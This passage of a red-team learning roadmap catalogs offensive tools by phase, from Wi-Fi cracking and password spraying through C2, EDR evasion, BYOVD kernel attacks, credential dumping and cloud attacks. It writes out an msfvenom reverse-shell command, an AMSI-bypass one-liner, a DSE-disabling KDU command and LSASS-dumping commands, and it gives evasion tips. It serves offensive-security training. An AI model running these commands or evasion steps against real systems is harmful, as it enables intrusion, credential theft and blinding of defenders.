| **pwncat** | `OSS` | https://github.com/calebstewart/pwncat (`pip3 install pwncat-cs`) | Enhanced reverse/bind shell handler. Auto-upgrades shells, file upload/download, persistence, and built-in post-exploitation modules. Replace your netcat listener with this. |

> 💡 **Beginner note (Ligolo-ng):** Traditional pivoting required socks5 proxies + proxychains, which breaks many tools. Ligolo-ng creates an actual network interface on your machine routing to the internal network; every tool works natively, including Nmap scans and GUI tools. This is why it replaced Chisel as the default pivot tool.

---

### 📶 Wireless Attacks

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **aircrack-ng** | `OSS` | `sudo apt install aircrack-ng` | Full wireless security assessment suite. WEP/WPA cracking, monitor mode, packet injection, deauth attacks. `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng` - learn the full suite. |
| **hcxdumptool** | `OSS` | `sudo apt install hcxdumptool` | Captures PMKID hashes and WPA handshakes. Modern approach: no client deauth needed for PMKID. `hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=3` |
| **hcxtools** | `OSS` | `sudo apt install hcxtools` | Converts captures to hashcat format. `hcxpcapngtool -o hash.hc22000 capture.pcapng` then crack with hashcat mode 22000. |
| **hostapd-wpe** | `OSS` | https://github.com/OpenSecurityResearch/hostapd-wpe | Rogue access point for WPA2-Enterprise (EAP) credential capture. Creates a fake corporate Wi-Fi AP to capture domain credentials. |
| **eaphammer** | `OSS` | https://github.com/s0md3v/eaphammer (`pip3 install eaphammer`) | Automates WPA2-Enterprise Evil Twin attacks. `eaphammer --cert-wizard` generates certificates, then `eaphammer -i wlan0 --essid "CorpWifi"` runs the attack. |

---

### 🔓 Password Attacks

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **hashcat** | `OSS` | `sudo apt install hashcat` | GPU-accelerated password cracker. Fastest for offline hash cracking. Mode reference: `-m 0` MD5, `-m 1000` NTLM, `-m 22000` WPA2, `-m 13100` Kerberoast. Requires GPU. |
| **John the Ripper** | `OSS` | `sudo apt install john` | CPU-based password cracker. Good for formats hashcat doesn't support. Also useful on machines without a GPU. |
| **CeWL** | `OSS` | `sudo apt install cewl` | Builds custom wordlists from a target's website. `cewl https://target.com -d 3 -m 5 -w wordlist.txt` - crawls 3 levels deep, minimum 5 character words. |
| **SecLists** | `OSS` | https://github.com/danielmiessler/SecLists (`sudo apt install seclists`) | The wordlist collection. Passwords, usernames, directories, subdomains, payloads. Install once, use forever. `/usr/share/seclists/` |
| **CredMaster** | `OSS` | https://github.com/knavesec/CredMaster | M365/Azure credential spraying via FireProx (AWS API Gateway). Rotates IPs automatically to avoid lockout detection. **Replace MSOLSpray with this.** |
| **o365spray** | `OSS` | https://github.com/0xZDH/o365spray | Microsoft 365 user enumeration and password spraying with multiple validation methods. |
| **mitm6** | `OSS` | https://github.com/dirkjanm/mitm6 (`pip3 install mitm6`) | IPv6 DHCP spoofing attack against AD environments. Most corporate networks have IPv6 enabled and unmonitored. Combine with ntlmrelayx for credential capture. `sudo mitm6 -d lab.local` |

> 💡 **Beginner note (mitm6):** This is one of the most underused and most reliable attacks against AD environments. Send fake IPv6 DHCP advertisements, set yourself as the DNS server, capture NTLM authentication. Works even on patched, hardened environments because IPv6 is often forgotten. Always try this in internal engagements.

---

### 🧰 Exploitation Frameworks

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Metasploit Framework** | `OSS` | `sudo apt install metasploit-framework` | The most widely used exploitation framework. 2,000+ exploits, post-exploitation modules, payload generators. `msfconsole` to start. Your training wheels and your toolkit. |
| **Impacket** | `OSS` | https://github.com/fortra/impacket (`pip3 install impacket`) | Python library for network protocols. The most important offensive toolkit for Windows/AD. Contains: secretsdump, GetNPUsers, GetUserSPNs, ntlmrelayx, psexec, smbexec, wmiexec. Learn every script. |

---

### 🔎 Vulnerability Scanning

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **OpenVAS / Greenbone** | `OSS` | https://www.greenbone.net/en/community-edition/ | Full network vulnerability scanner. Comprehensive CVE coverage. Slower than nuclei but deeper. Run once on scope, use nuclei for targeted scanning. |

---

<a id="phase-3-binary"></a>
## Phase 3: Binary & System Exploitation

---

### 💥 Binary Exploitation

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **pwntools** | `OSS` | https://github.com/Gallopsled/pwntools (`pip3 install pwntools`) | Python framework for exploit development. Handles process interaction, GDB integration, ELF parsing, shellcode generation, ROP chain building, and remote connections. The foundation of CTF and real exploit development. |
| **ROPgadget** | `OSS` | https://github.com/JonathanSalwan/ROPgadget (`pip3 install ROPgadget`) | Finds ROP (Return-Oriented Programming) gadgets in binaries. `ROPgadget --binary ./vuln --rop` lists all useful chains. `--rop --chain "execve"` generates a working chain. |
| **Ropper** | `OSS` | https://github.com/sashs/Ropper (`pip3 install ropper`) | Alternative ROP gadget finder with more output options and search flexibility. `ropper -f binary --search "pop rdi"` - often finds gadgets ROPgadget misses. |
| **one_gadget** | `OSS` | https://github.com/david942j/one_gadget (`gem install one_gadget`) | Finds "one-gadget" RCE gadgets in libc - single ROP addresses that call `execve("/bin/sh")`. `one_gadget /lib/x86_64-linux-gnu/libc.so.6` |
| **how2heap** | `OSS` | https://github.com/shellphish/how2heap (`git clone`) | Repository of working heap exploitation technique examples: tcache dup, fastbin dup, overlapping chunks, house of spirit, house of force, safe-linking bypass, and every glibc version variant. Your primary heap reference. |
| **patchelf** | `OSS` | `sudo apt install patchelf` | Modify ELF binary headers to use a different libc or interpreter. Essential for CTF challenges that provide a specific libc. `patchelf --set-interpreter /path/to/ld ./binary` |
| **pwninit** | `OSS` | https://github.com/io12/pwninit | Automates CTF binary setup: downloads matching libc, sets interpreter, starts GDB with correct libc. `pwninit` in a challenge directory. |
| **checksec** | `OSS` | `pip3 install checksec.py` or `checksec --file=binary` | Shows binary security mitigations: NX, PIE, RELRO, stack canary, ASLR. Always run this before starting an exploit. Tells you what you're working against. |

> 💡 **Beginner note (glibc heap):** Before how2heap, understand the allocator data structures.
> - **tcache:** Per-thread cache of freed chunks. 7 bins per size class, fast, no integrity checks in old glibc (before 2.32).
> - **fastbins:** Small chunks (≤0x80 bytes). LIFO. Not merged with adjacent chunks.
> - **smallbins:** Medium chunks (0x20–0x3f0). Doubly-linked list. Unlink attack targets these.
> - **unsorted bin:** Freed chunks land here first before sorted into small/large bins.
>
> The common attack path: corrupt a chunk's `fd` pointer → tcache/fastbin dup → allocate to arbitrary address → write shellcode or overwrite `__free_hook`/`__malloc_hook`. Modern glibc (2.34+) removed `__free_hook` - see how2heap for current techniques.

---

### 🔬 Shellcode Assembly

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **keystone-engine** | `OSS` | https://www.keystone-engine.org (`pip3 install keystone-engine`) | Multi-architecture assembler framework. Convert assembly text to machine bytes in Python scripts. `ks.asm("mov rax, 0x3b; syscall")` |
| **capstone** | `OSS` | https://www.capstone-engine.org (`pip3 install capstone`) | Multi-architecture disassembly framework. Convert machine bytes to assembly in Python. Complement to keystone. |
| **pwntools shellcraft** | `OSS` | Included with pwntools | Built-in shellcode generator. `python3 -c "from pwn import *; print(shellcraft.amd64.sh())"` - generates execve("/bin/sh") shellcode. |

---

### 🎰 Fuzzing

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **AFL++** | `OSS` | https://github.com/AFLplusplus/AFLplusplus (`git clone && make distrib && sudo make install`) | State-of-the-art coverage-guided fuzzer. Instruments a binary, feeds it mutated inputs, tracks new code coverage. Finds crashes that lead to bugs. The industry standard fuzzer for native code. |
| **libFuzzer** | `OSS` | https://llvm.org/docs/LibFuzzer.html (included in LLVM/clang) | LLVM's in-process fuzzer. Compile your target with `-fsanitize=fuzzer,address`. Fast because target runs in same process. Best for libraries. |
| **Honggfuzz** | `OSS` | https://github.com/google/honggfuzz (`git clone && make`) | Google's coverage-guided fuzzer. Often finds bugs AFL++ misses because of different coverage metrics. Persistent mode is extremely fast. Good second fuzzer after AFL++. |
| **boofuzz** | `OSS` | https://github.com/jtpereyda/boofuzz (`pip3 install boofuzz`) | Network protocol fuzzer. Sulley successor. Define message structure, fuzz fields, monitor for crashes. Use for proprietary protocols, ICS systems, network daemons. |
| **WinAFL** | `OSS` | https://github.com/googleprojectzero/winafl | AFL port for Windows. Uses Intel PT or DynamoRIO for coverage. Fuzzes Windows binaries that can't be recompiled. Phase 3–4D. |
| **Fuzzilli** | `OSS` | https://github.com/googleprojectzero/fuzzilli | JavaScript engine fuzzer from Google Project Zero. Generates semantically valid JS programs that explore V8/SpiderMonkey JIT compiler edge cases. Phase 4D (browser research). |

> 💡 **Beginner note (AFL++):** The minimal AFL++ workflow:
> ```bash
> # 1. Compile with AFL++ instrumentation
> CC=afl-clang-fast ./configure && make
>
> # 2. Create input corpus
> mkdir in && echo "test" > in/seed
>
> # 3. Run the fuzzer
> afl-fuzz -i in -o out -- ./target_binary @@
>
> # 4. Triage crashes
> ls out/default/crashes/
> ```
> Crashes in `out/default/crashes/` are your bugs. Minimize with `afl-tmin`, then analyze with GDB+GEF.

---

### 🧠 Symbolic Execution & Taint Analysis

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **angr** | `OSS` | https://angr.io (`pip3 install angr`) | Binary analysis framework with symbolic execution. Explores all program paths automatically. Use for: CTF challenges, automated exploit generation, finding reachable vulnerable code paths. Steep learning curve. Worth it at Phase 4D. |
| **Triton** | `OSS` | https://triton-library.github.io (`git clone + cmake build`) | Intel's dynamic binary analysis framework with taint tracking and symbolic execution. More precise than angr for specific taint analysis tasks. Phase 4D research level. |

---

<a id="phase-4ab-implant"></a>
## Phase 4A/B: Implant, C2 & Loader Development

---

### 🧭 C2 Framework Selection Decision Tree

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 🎯 C2 Frameworks (Open Source)

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Sliver** (BishopFox) | `OSS` | https://github.com/BishopFox/sliver | Go-based C2 framework. mTLS, WireGuard, HTTP/S, DNS transports. BOF execution, SOCKS5, port forwarding, process injection, armory (extensions). The 2027 default open-source C2. |
| **Havoc** | `OSS` | https://github.com/HavocFramework/Havoc | C/C++ C2 with Demon agent. Focused on EDR evasion. Sleep obfuscation built in, custom post-exploitation modules, Malleable C2 profiles. The 2027 alternative when Sliver is too noisy. |
| **Metasploit Framework** | `OSS` | https://metasploit.com | The classic. Still essential for its exploit coverage and payload generation. Meterpreter is less stealthy than custom loaders but remains the fastest way to a working shell. |

> 💡 **Beginner note (C2 architecture):** A C2 framework has three components: (1) the **server** on your attacker machine receives beacons, (2) a **redirector** (reverse proxy) sits in front of the server and routes beacon traffic while blocking direct access, (3) an **implant/agent** runs on the target and periodically checks in. Never expose your C2 server directly; always use redirectors (Apache/Nginx/Cloudflare Workers).

---

### 🔒 C2 Frameworks (Commercial: Awareness Only)

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **Cobalt Strike 5.x** | `COMMERCIAL` (~$5,000+/yr, organization required) | https://www.cobaltstrike.com | Industry standard red team C2. Beacon agent, Malleable C2 profiles, BOF support, team server. You need to understand this even if you don't use it - blue teams build detections against it. |
| **BruteRatel C4** | `COMMERCIAL` (~$2,500/yr) | https://bruteratel.com | Used by Lazarus Group, BlackCat, and other threat actors in real attacks. Understanding its capabilities is essential for threat intelligence and defense evasion awareness. Requires vetting to purchase. |
| **NightHawk** | `COMMERCIAL` | https://www.mdsec.co.uk/nighthawk/ | MDSec's extremely evasive C2. Referenced in threat reports. Awareness-level knowledge - understand what makes it evade detection. |

---

### 🔧 Shellcode, Loaders & Injection

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **sRDI** (Shellcode Reflective DLL Injection) | `OSS` | https://github.com/monoxgas/sRDI | Converts DLLs into position-independent shellcode. Drops the need for `LoadLibrary`. Load and execute DLLs entirely in memory. `ConvertToShellcode` function in Python. |
| **donut** | `OSS` | https://github.com/TheWover/donut (`git clone && make`) | Converts .NET assemblies, EXEs, and DLLs into position-independent shellcode. Run .NET tools from memory without touching disk. `donut -f 1 tool.exe -o shellcode.bin` |
| **Freeze.rs** | `OSS` | https://github.com/optiv/Freeze.rs (`cargo build --release`) | Rust-based payload generator and shellcode encryptor. Creates heavily obfuscated loaders. AES encryption, AMSI patching, ETW patching built in. |
| **msfvenom** | `OSS` | included with Metasploit | Quick payload generator. Good for testing. Not for production operations (extremely high detection rate). `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe` |
| **nanodump** | `OSS` | https://github.com/helpsystems/nanodump | LSASS memory dump that bypasses most EDR detection. Uses multiple dump methods (fork, dup-handle, UnmapViewOfFile). Produces a valid minidump without calling `MiniDumpWriteDump`. |

---

### 📦 BOF Development & Execution

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **CS-Situational-Awareness-BOF** (TrustedSec) | `OSS` | https://github.com/trustedsec/CS-Situational-Awareness-BOF | Collection of Beacon Object Files (BOFs) for post-exploitation: whoami, netstat, ipconfig, netview, schtasksenum, and 40+ more. Run without spawning new processes. |
| **COFFLoader** | `OSS` | https://github.com/trustedsec/COFFLoader | Execute BOFs without Cobalt Strike. Test and run BOFs from any C2 framework or standalone. |
| **BOF.NET** | `OSS` | https://github.com/CCob/BOF.NET | Run .NET code as BOFs. Bridge between managed and unmanaged execution in Beacon context. |

---

### 😴 Sleep Obfuscation

> EDRs scan memory for beacon signatures while the beacon is idle (sleeping). Sleep obfuscation encrypts the beacon in memory during sleep, defeating this. These are all necessary techniques to understand.

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **Ekko** | `OSS` | https://github.com/Cracked5pider/Ekko | APC-based sleep obfuscation. Uses `NtQueueApcThread` to schedule encrypt → sleep → decrypt as APC callbacks. Reference implementation. |
| **Foliage** | `OSS` | https://github.com/SecIdiot/FOLIAGE | Thread pool-based sleep obfuscation. Uses Windows thread pool API for cleaner implementation. |
| **Cronos** | `OSS` | https://github.com/Idov31/Cronos | Encrypted sleep with timer queue-based execution. Combines encryption + stack spoofing. |
| **SilentMoonwalk** | `OSS` | https://github.com/klezVirus/SilentMoonwalk | Combined sleep obfuscation + full call stack spoofing. The most complete open-source implementation. Use as reference for custom implementations. |

---

### 📚 Stack Spoofing

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **SilentMoonwalk** | `OSS` | https://github.com/klezVirus/SilentMoonwalk | Spoofs the call stack during sleep so memory scanners see a clean stack instead of a beacon call chain. |
| **Unwinder** | `OSS` | https://github.com/Kudaes/Unwinder | Rust-based call stack unwinding evasion. Different implementation approach from SilentMoonwalk. |

---

### ⚙️ Syscall Bypass

> EDRs hook `ntdll.dll` userland functions to intercept API calls. Direct syscalls bypass the hooks by calling the kernel directly. Learn the concept before the tools.

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **SysWhispers3** | `OSS` | https://github.com/klezVirus/SysWhispers3 | Generates direct and indirect syscall stubs for any Windows API. `python3 SysWhispers.py --preset all -o syscalls` outputs ready-to-use C headers. |
| **TartarusGate** | `OSS` | https://github.com/trickster0/TartarusGate | Dynamic indirect syscall resolver. Finds clean syscall stubs at runtime even when EDR has patched some. More resilient than static syscall numbers. |
| **RecycledGate** | `OSS` | https://github.com/thefLink/RecycledGate | Hell's Gate variant. Resolves syscall numbers by recycling existing syscall instructions from already-hooked functions. No syscall instruction in your shellcode. |
| **HellsGate** | `OSS` | https://github.com/am0nsec/HellsGate | Original direct syscall technique. Reads syscall numbers from ntdll.dll in memory at runtime. The foundation technique: understand this before the others. |

---

### 🦀 Offensive Rust

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **RustRedOps** | `OSS` | https://github.com/joaoviictorti/RustRedOps | Collection of offensive security tools implemented in Rust: process injection, shellcode loaders, NTAPI usage, token manipulation. |

---

### 🔍 Malware Analysis (Know Your Defenders)

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **CAPE Sandbox** | `OSS` | https://github.com/kevoreilly/CAPEv2 | Malware analysis sandbox. Cuckoo successor. Behavioral analysis, process injection detection, YARA scanning. Self-host for private analysis. |
| **Tria.ge** | `FREEMIUM` | https://tria.ge | Cloud malware sandbox. Fast results. Free tier limits submissions. Submit your payloads to understand how defenders see them. |
| **ANY.RUN** | `FREEMIUM` | https://any.run | Interactive cloud sandbox. Watch malware execute in real time in a browser. Free public submissions. Invaluable for understanding TTPs. |
| **Hybrid Analysis** | `FREE` | https://hybrid-analysis.com | Automated malware analysis from CrowdStrike Falcon Sandbox. Free tier, good for quick analysis. |
| **YARA** | `OSS` | `sudo apt install yara` | Pattern matching rule language for malware identification. Write rules to detect your own payloads before deploying. Know what you trigger. |
| **Detect-It-Easy (DIE)** | `OSS` | https://github.com/horsicq/Detect-It-Easy | Packer and compiler identifier. Drop a PE, and DIE tells you what packed it, what compiled it, and what obfuscation it detected. |

---

<a id="phase-4c-edr"></a>
## Phase 4C: EDR / AV Evasion

---

### 🛡️ EDR Bypass

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **EDRSandBlast** | `OSS` | https://github.com/wavestone-cdt/EDRSandblast | Removes EDR kernel callbacks and userland hooks. Uses a vulnerable driver to patch kernel structures directly. Renders most EDR products blind. Understand this to understand what you're defending against. |
| **Gargoyle** | `OSS` | https://github.com/JLospinoso/gargoyle | ROP-based payload execution that makes shellcode non-executable (not `PAGE_EXECUTE`) while dormant. Defeats memory scanners that look for executable regions without a call stack. |
| **Dinvoke (.NET)** | `OSS` | https://github.com/TheWover/DInvoke | D/Invoke for .NET. Avoids P/Invoke hooks by dynamically resolving API addresses and using delegate invocations. EDR-safe way to call Windows APIs from .NET. |

---

### 🔬 ETW & AMSI Bypass

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **ETW patching** (manual technique) | `OSS` | Search GitHub: "EtwEventWrite patch PoC" | Patch `EtwEventWrite` in `ntdll.dll` to return immediately without logging. Blinds ETW-based monitoring. Learn the one-byte patch technique manually. |
| **AMSI patching** (manual technique) | `OSS` | Search GitHub: "AmsiScanBuffer bypass" | Patch `AmsiScanBuffer` in `amsi.dll` to always return `AMSI_RESULT_CLEAN`. Bypasses PowerShell/VBA/WMIC AMSI scanning. Multiple techniques: patch the function, corrupt the context, patch the DLL in memory. |

> 💡 **Beginner note (AMSI bypass):** The classic one-liner that still works on unpatched systems:
> ```powershell
> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
> ```
> Understand why it works (sets `amsiInitFailed = true` so AMSI never initializes) before memorizing the syntax.

---

### 🔍 Detection Awareness (Know What Catches You)

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **PE-sieve** | `OSS` | https://github.com/hasherezade/pe-sieve | Scans processes for injected code, hooks, patches, and modified memory. Run against your own payloads to see what gets detected. |
| **Moneta** | `OSS` | https://github.com/forrest-orr/moneta | Memory scanner that detects anomalous memory regions in processes. Simulates what a defensive scanner sees. Test your loaders against this before deploying. |
| **BeaconEye** (detection reference) | `OSS` | https://github.com/CCob/BeaconEye | Cobalt Strike beacon detector. Understand what patterns it looks for - then ensure your custom beacons don't exhibit those patterns. |
| **Objective-See suite** (macOS defenders) | `FREE` | https://objective-see.org | macOS security tools: BlockBlock, KnockKnock, ProcessMonitor. Know what defenders on Mac see. |

---

<a id="phase-4d-vr"></a>
## Phase 4D: Vulnerability Research & 0-Day

---

### 🧭 Reverse Engineering & Disassembler Selection

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 🔭 Static Analysis & Reverse Engineering

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Ghidra** (NSA) | `OSS` | https://ghidra-sre.org | Full decompiler and reverse engineering suite. Free. Comparable to IDA Pro for most tasks. Scripts in Java or Python. Your primary RE tool unless you have IDA budget. |
| **IDA Pro** | `COMMERCIAL` (~$3,000+ for full license) | https://hex-rays.com/ida-pro/ | Industry standard RE tool. Better than Ghidra for some architectures. Free version (IDA Freeware) supports x86/x64/ARM/ARM64 but no decompiler in free version. |
| **Binary Ninja** | `COMMERCIAL` (~$400/yr, trial available) | https://binary.ninja | Modern RE platform with excellent API for automation. Middle ground between Ghidra (free/slower) and IDA Pro (expensive). Personal license ~$400/yr. Trial available. |
| **Radare2 (r2)** | `OSS` | `sudo apt install radare2` | Command-line RE framework. Steep learning curve. Extremely powerful once learned. `r2 -A binary` then `pdf` to disassemble. |
| **Cutter** | `OSS` | https://cutter.re | GUI for Radare2. Makes r2 accessible to beginners. Use for visual analysis, switch to r2 CLI for scripting. |
| **x64dbg** | `OSS` | https://x64dbg.com | Windows GUI debugger. Open source. Replaces OllyDbg. Plugins for everything. The standard Windows user-mode debugger for practitioners. |
| **WinDbg Preview** | `FREE` | Microsoft Store | Microsoft's kernel and user-mode debugger. Essential for Windows kernel research, crash dump analysis, and driver debugging. `!analyze -v` is your friend. |

---

### 🔀 Patch Diffing

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **BinDiff** (Google/Zynamics) | `FREE` | https://www.zynamics.com/bindiff.html | Industry standard binary diff tool. Compare patched vs unpatched binaries to find vulnerability location. Export from IDA or Ghidra, compare with BinDiff UI. |
| **Diaphora** | `OSS` | https://github.com/joxeankoret/diaphora (`git clone`, use as Ghidra/IDA plugin) | Free open-source alternative to BinDiff. Works with both Ghidra and IDA Pro. Best free patch diffing option. |
| **patchdiff2** | `OSS` | https://github.com/filcab/patchdiff2 | IDA Pro plugin for patch diffing. Older but functional. |

---

### ⚙️ Dynamic Analysis & Kernel Research

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **QEMU/KVM** | `OSS` | `sudo apt install qemu-kvm qemu-utils` | Full system emulation. Create minimal kernel research environments with `buildroot`. Attach GDB to QEMU guest kernel for kernel exploitation research. |
| **VirtualKD-Redux** | `OSS` | https://github.com/4d61726b/VirtualKD-Redux | Transparent VMware/VirtualBox kernel debugging helper. Makes WinDbg kernel debugging fast (no serial cable needed). Essential for Windows kernel research. |
| **rr** (Mozilla) | `OSS` | https://rr-project.org (`sudo apt install rr`) | Record and replay debugger. Record a bug, replay it deterministically. No more "it only crashes sometimes." Invaluable for intermittent crashes during fuzzing. |
| **AddressSanitizer (ASAN)** | `OSS` | built into GCC/Clang | Compile-time memory error detector. `-fsanitize=address` flag. Catches heap/stack overflows, use-after-free, double-free at runtime with exact location. |
| **UBSan** | `OSS` | built into GCC/Clang | Undefined behavior sanitizer. `-fsanitize=undefined`. Catches integer overflow, null pointer dereference, misaligned access. Run with ASAN together. |

---

### 🌐 Wasm & Browser Research

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **wabt** (WebAssembly Binary Toolkit) | `OSS` | https://github.com/WebAssembly/wabt (`sudo apt install wabt`) | Essential toolkit for WebAssembly reversing. `wasm-decompile` decompiles .wasm to readable C-like code. `wasm-objdump -d` shows assembly. `wasm2wat` converts to text format. |
| **Fuzzilli** | `OSS` | https://github.com/googleprojectzero/fuzzilli | V8/SpiderMonkey JavaScript engine fuzzer. Generates semantically valid JS programs targeting JIT compiler edge cases. Requires building from source. Phase 5 level tool. |
| **d8** (V8 debug shell) | `OSS` | Build from: https://v8.dev/docs/build | V8 JavaScript engine debug build. Essential for browser exploitation research. Build with `--debug` for ASAN + verbose output. |

---

<a id="phase-4e-apt"></a>
## Phase 4E: APT Persistence, Rootkits & Anti-Forensics

---

### 🔑 BYOVD & Kernel Driver Attacks

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **KDU** (Kernel Driver Utility) | `OSS` | https://github.com/hfiref0x/KDU | **The BYOVD tool.** Uses a known-vulnerable signed driver to bypass Driver Signature Enforcement (DSE) and load unsigned rootkit drivers. Supports 30+ vulnerable drivers. `kdu.exe -prv 0 -dse 0` disables DSE. |
| **LOLDrivers Database** | `FREE` (web) | https://www.loldrivers.io | Database of legitimate signed drivers known to be vulnerable. Search by CVE, category, or capability. Use with KDU or for manual BYOVD attacks. |
| **PPLKiller** | `OSS` | https://github.com/itm4n/PPLdump | Bypass Protected Process Light (PPL) to access protected processes like LSASS. Requires admin rights, bypasses LSASS protection to dump credentials. |

---

### 🖥️ Windows Kernel Debugging

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **WinDbg Preview** | `FREE` | Microsoft Store | Windows kernel debugger. Kernel mode analysis: `!process 0 0`, `dt nt!_EPROCESS`, `!drvobj`. Essential for driver and kernel exploit development. |
| **VirtualKD-Redux** | `OSS` | https://github.com/4d61726b/VirtualKD-Redux | Speeds up VMware/VirtualBox kernel debugging. Replace the slow serial/pipe transport. Fast enough for interactive debugging. |
| **WinObj** | `FREE` | https://learn.microsoft.com/en-us/sysinternals/downloads/winobj | Sysinternals tool showing Windows object namespace. See kernel objects, device objects, driver objects. Useful for rootkit research. |
| **Process Hacker 3 / System Informer** | `OSS` | https://processhacker.sourceforge.io | Deep process analysis. See handles, memory regions, threads, kernel drivers. Better than Task Manager for rootkit detection and research. |

---

### 🔒 UEFI & Firmware

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **efiXplorer** (Binarly) | `OSS` | https://github.com/binarly-io/efiXplorer | UEFI firmware analysis plugin for Ghidra and IDA Pro. Automatically identifies EFI GUIDs, protocols, and service calls. Makes UEFI RE dramatically faster. |
| **CHIPSEC** | `OSS` | https://github.com/chipsec/chipsec | Platform security assessment framework. Tests SPI flash protections, UEFI variables, SMRAM protections, firmware integrity. `python3 chipsec_main.py` runs all checks. |
| **UEFITool** | `OSS` | https://github.com/LongSoft/UEFITool | Parse, browse, extract, and modify UEFI firmware images. Open a firmware dump and navigate its structure: volumes, files, sections. |
| **edk2** (TianoCore) | `OSS` | https://github.com/tianocore/edk2 | Open source UEFI implementation. Write and compile UEFI DXE drivers. Build your own UEFI applications and learn the firmware development model. |
| **EfiGuard** | `OSS` | https://github.com/Mattiwatti/EfiGuard | UEFI bootkit that patches `PatchGuard` and DSE during Windows boot process. Research/reference implementation of a modern UEFI bootkit. |
| **flashrom** | `OSS` | `sudo apt install flashrom` | Read, write, and verify SPI flash firmware chips. Works with USB hardware programmers (CH341A, Dediprog). Used for extracting firmware from physical devices and writing modified firmware back. |

---

### 💾 Credential Dumping (EDR-Aware)

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **nanodump** | `OSS` | https://github.com/helpsystems/nanodump | Modern LSASS dump that bypasses EDR. Multiple dump techniques including fork+dump (never opens LSASS directly), dup handle, and snapshot. Outputs valid minidump for offline analysis with mimikatz/pypykatz. |
| **lsassy** | `OSS` | https://github.com/Hackndo/lsassy (`pip3 install lsassy`) | Remote LSASS dump with multiple methods (nanodump, comsvcs, direct). `lsassy -d domain -u user -p pass target_ip` - dumps and parses credentials automatically. |
| **pypykatz** | `OSS` | https://github.com/skelsec/pypykatz (`pip3 install pypykatz`) | Mimikatz reimplemented in Python. Parse LSASS minidump files offline. `pypykatz lsa minidump lsass.dmp` - extract credentials from dump file on your Linux machine. |
| **Mimikatz** | `OSS` | https://github.com/gentilkiwi/mimikatz | The original credential dumping tool. Extremely high detection rate (caught by every EDR/AV). Still useful for: offline dump parsing, understanding techniques, lab use, generating payloads for testing defenses. Never deploy directly against a defended target. |
| **LaZagne** | `OSS` | https://github.com/AlessandroZ/LaZagne | Recovers credentials from application storage: browsers, mail clients, databases, git, wifi passwords. Not LSASS: application layer. `laZagne.exe all` |

---

### 🔄 Persistence

| Tool | License | Link | What It Does |
|------|---------|------|--------------|
| **SharPersist** | `OSS` | https://github.com/mandiant/SharPersist | Windows persistence toolkit in C#. Automates: scheduled tasks, registry run keys, WMI subscriptions, startup folder, COM hijacks. `SharPersist -t schtask -c "cmd.exe" -a "/c ..."` |
| **chainbreaker** | `OSS` | https://github.com/n0fate/chainbreaker | macOS Keychain parser. Extract credentials from Keychain database files (offline or with macOS memory dump). |
| **MACOS-RedTeaming** (Mariana-Trench) | `OSS` | https://github.com/tonghuaroot/Mariana-Trench | macOS red teaming toolkit. TCC bypass techniques, LaunchAgent persistence, dylib hijacking. |

---

<a id="phase-4f-cloud"></a>
## Phase 4F: Cloud, AiTM & Advanced Web

---

### ☁️ AWS

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **Pacu** (RhinoSecurity) | `OSS` | https://github.com/RhinoSecurityLabs/pacu (`pip3 install pacu`) | AWS exploitation framework. Modules for: IAM enum, privilege escalation, data exfiltration, Lambda exploitation, EC2 persistence. `run iam__enum_permissions` |
| **aws-cli** | `OSS` | https://aws.amazon.com/cli/ (`pip3 install awscli`) | Official AWS CLI. Low-level direct API interaction. `aws iam list-users`, `aws s3 ls`, `aws sts get-caller-identity`. Your foundation tool for AWS work. |
| **CloudFox** (BishopFox) | `OSS` | https://github.com/BishopFox/cloudfox | Multi-cloud privilege escalation path finder. `cloudfox aws -p profile-name all-checks` maps potential escalation paths across all services. |

---

### ☁️ Azure / Entra ID / M365

| Tool | License | Link / Install | What It Does |
|------|---------|----------------|--------------|
| **AzureHound** | `OSS` | https://github.com/BloodHoundAD/AzureHound | BloodHound data collector for Azure/Entra ID. Enumerates users, groups, apps, service principals, subscriptions. Import JSON to BloodHound CE. |
| **ROADtools** | `OSS` | https://github.com/dirkjanm/ROADtools (`pip3 install roadtools`) | Azure/Entra ID enumeration framework. `roadrecon gather` enumerates the entire tenant. `roadrecon-gui` provides a web interface. Essential for M365 red teaming. |
| **GraphRunner** | `OSS` | https://github.com/dafthack/GraphRunner | Microsoft 365 / Graph API attack automation. Phishing via Teams, mail search, file exfiltration, OAuth abuse. `Invoke-GraphRunner -Tokens $tokens` |
